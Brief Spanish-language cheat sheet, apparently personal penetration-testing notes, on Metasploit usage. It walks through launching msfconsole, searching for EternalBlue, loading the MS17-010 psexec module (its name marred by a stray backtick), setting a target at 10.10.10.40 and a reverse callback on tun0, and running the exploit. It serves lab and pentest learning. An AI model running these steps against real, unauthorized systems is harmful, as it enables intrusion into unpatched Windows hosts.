 # Metasploit
Una de las herramientas más potentes en pruebas de penetración. Contiene miles de exploits, payloads, módulos de escaneo y post-explotación.

comandos:
	abrir:
		`msfconsole`
	Buscar exploits por nombre o CVE:
		`search exploit eternalblue`
	Usar un módulo:
		`use exploit/windows/smb/ms17_010_psexe`c
	Configurar opciones necesarias:
		`set RHOSTS 10.10.10.40`
		`set LHOST tun0`
	Verificar si es vulnerable (si el módulo lo permite):
		`check`
	Ejecutar el exploit
		`exploit`



